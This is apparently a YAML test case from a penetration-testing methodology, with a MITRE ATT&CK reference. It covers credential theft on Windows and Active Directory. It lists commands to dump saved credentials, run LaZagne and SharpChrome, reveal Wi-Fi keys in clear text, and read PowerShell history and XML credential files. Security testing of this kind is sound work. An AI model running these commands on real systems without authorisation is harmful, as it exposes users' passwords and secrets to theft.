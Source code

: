 ```yaml
---
testcase: Commands and Tools for Credential Theft
platforms:
  - AD
  - Windows
methodology:
  - BlackBox
  - GreyBox
references:
  - https://attack.mitre.org/techniques/T1552/
how-to-test: |
  - List saved credentials:
    - `cmdkey /list`
  - Use LaZagne to extract credentials:
    - `.lazagne.exe all`
  - Steal browser passwords with tools like:
    - `SharpChrome.exe`
  - Extract wireless keys:
    - `netsh wlan show profile`
    - `netsh wlan show profile <SSID> key=clear`
  - Extract credentials from PowerShell history:
    - `gc (Get-PSReadLineOption).HistorySavePath`
  - Decrypt XML credentials:
    - `$credential = Import-Clixml -Path '<path>'`
---
```

